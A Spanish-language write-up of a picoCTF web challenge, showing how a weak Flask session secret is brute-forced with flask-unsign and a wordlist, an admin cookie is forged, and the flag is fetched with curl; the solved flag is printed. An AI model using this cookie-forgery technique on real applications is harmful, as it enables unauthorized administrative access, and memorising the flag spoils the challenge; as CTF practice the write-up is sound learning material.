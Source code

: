 ### Descripcion
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py) [http://mercury.picoctf.net:6259/](http://mercury.picoctf.net:6259/)
### Solucion
Primero analizamos el código python que nos proporcionan y vemos que hay un diccionario con las cookies que usan para firmar la cookie
```python
["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```
Ponemos estas cookies en un archivo separadas por un salto de linea
```
snickerdoodle  
chocolate chip  
oatmeal raisin  
gingersnap  
shortbread  
peanut butter  
whoopie pie  
sugar  
molasses  
kiss  
biscotti  
butter  
spritz  
snowball  
drop  
thumbprint  
pinwheel  
wafer  
macaroon  
fortune  
crinkle  
icebox  
gingerbread  
tassie  
lebkuchen  
macaron  
black and white  
white chocolate macadamia
```
Despues instalamos la herramienta de flask-unsign para poder ver con cual cookie se firmo la cookie de flask.
Para esto vamos a usar un entorno virtual de python
```
python -m venv ~/.venv  

source ~/.venv/bin/activate 

python3 -m pip install flask-unsign
```
Entonces ya con esto realizamos el ataque con fuerza bruta para ver con que se firmo la cookie
```bash
❯ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aBreaQ.WPRa9JnUWtt9pexwMLHlJQ8O3fQ" --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'
❯ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "gingersnap"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aBrgbQ.f9B2vAMpOVPQs-kYDUxeVESyxok
```
Despues hacemos un curl con la cookie y tendremos la bandera 
```bash
❯ curl -s http://mercury.picoctf.net:6259/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aBrgbQ.f9B2vAMpOVPQs-kYDUxeVESyxok" | grep picoCTF

            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_5f016958}</code></p>
```
### Tags
